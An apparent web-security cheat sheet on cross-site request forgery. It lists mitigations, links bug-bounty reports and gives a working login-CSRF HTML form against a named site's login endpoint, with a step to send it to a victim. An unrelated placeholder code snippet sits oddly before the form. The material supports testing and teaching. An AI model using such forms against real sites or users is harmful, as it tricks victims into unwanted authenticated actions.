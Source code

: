 # CSRF

>Cross Site Request Forgery is an attack that forces an end user to execute unwanted action on a web application in which they are currently authenticated.

## Prerequisites:
> User should have active session.

## Mitigation

1. CSRF Token: Token is added in hidden form field, unique per session, large random value.
1. Synchronizer Token Pattern
2. Encryption Based Token Pattern
3. Hash Based Token Pattern
4. Same Site Cookie Attribute
5. Double Submit Cookie (Cookie & request parameter).
6. Re-authentication, One-time token, Captcha (Strong CSRF defense).

## Test Cases:


1. Create a CSRF login POC using the following code.

```javascript
if (isAwesome){
  return true
}
```

``` <html>
<body>
<form action="https://unikrn.com/apiv1/login" method="POST">
<input type="hidden" name="usr" value="[email]">
<input type="hidden" name="pwd" value="[password]">
<input type="submit" value="Submit request" />
</form>
</body>
</html>```


2. Replace the email and password with the valid credentials.
3. Send the script to the victim to make them click.

## Example/POC :

* [CSRF logs the victim into attacker's account](https://hackerone.com/reports/339352)
* [CSRF: add item to victim's cart automatically (starbucks.com - updatecart)](https://hackerone.com/reports/177472)
* [login csrf in analytics.mopub.com](https://hackerone.com/reports/577920)
* [CSRF at (Apply to this program) that lead to submit your request automatic with out any validations](https://hackerone.com/reports/334253)
